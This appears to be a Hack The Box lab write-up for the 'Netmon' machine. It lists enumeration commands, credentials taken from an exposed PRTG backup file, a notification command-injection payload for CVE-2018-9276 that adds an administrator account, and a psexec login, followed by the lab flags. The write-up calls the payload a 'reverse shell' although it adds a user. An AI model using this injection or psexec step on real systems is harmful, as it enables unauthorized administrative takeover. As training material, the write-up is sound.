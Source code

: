 # HTB: Netmon

## Engagement Overview

**Target:** Netmon
**Box IP:** 10.10.10.152
**Local IP:** 10.10.14.16
**Date:** 2025-07-22

---

### Objectives

- Gain root access

---

## Service Enumeration

### Nmap Summary

```bash
nmap -sCV -oA nmap.txt 10.10.10.152
```

**Open Ports and Services:**
- **21/tcp** - FTP: Microsoft ftpd  
  - Anonymous login allowed
  - Exposed directory structure with config files
- **80/tcp** - HTTP: Indy httpd (Paessler PRTG)  
  - Version: 18.1.37.13946
  - Web interface accessible
- **135, 139, 445/tcp** - Windows RPC / SMB  
  - Windows Server 2008 R2 - 2012
  - Message signing not required
- **5985/tcp** - Microsoft HTTPAPI

**Host Notes:**
- SMB: Message signing disabled
- Anonymous access enabled

---

## Initial Access

### Vulnerability

- **CVE-2018-9276** – Authenticated RCE via PRTG Notifications

### Approach

1. Logged into FTP using anonymous access:
   - Discovered backup files:
     ```
     PRTG Configuration.old.bak
     ```
   - Downloaded `.bak` config file via FTP

2. Extracted credentials from config file:
   ```
   user: prtgadmin
   pass: PrTg@dmin2019
   ```

3. Logged into PRTG web interface at `http://10.10.10.152`:
   - Version: 18.1.37.13946
   - Vulnerable to CVE-2018-9276

---

## Privilege Escalation

### Exploit Method

- Injected reverse shell payload into the **PRTG Notification** system:
  ```plaintext
  abc.txt | net user htb abc123! /add & net localgroup administrators htb /add
  ```

- Executed the notification, then used `impacket-psexec` with the new user:
```bash
impacket-psexec htb:'abc123!'@10.10.10.152
```

### Result

- Logged in as **NT AUTHORITY\SYSTEM**
- Retrieved root flag successfully:
  ```
  C:\Users\Administrator\Desktop> type root.txt
  1fd2f7f093ba33f259d228549f100af6
  ```

---

## Post-Exploitation

### Flags

- **User Flag:** `1cfe7df9dbd51bcb426b0b8407544209`
- **Root Flag:** `1fd2f7f093ba33f259d228549f100af6`

### Credentials Dumped

- `prtgadmin` / `PrTg@dmin2019`

---

## Tools Utilized

- Nmap  
- FTP  
- Impacket (psexec.py)  
- Metasploit (optional, noted in research)

---

## House Cleaning

- No persistent users or shells left
- Access obtained and closed out after flag retrieval

---

## Key Takeaways

- Classic CVE exploitation with real-world software (PRTG)
- Importance of scanning for backup config files on exposed FTP
- Enumeration + light analysis = full box compromise
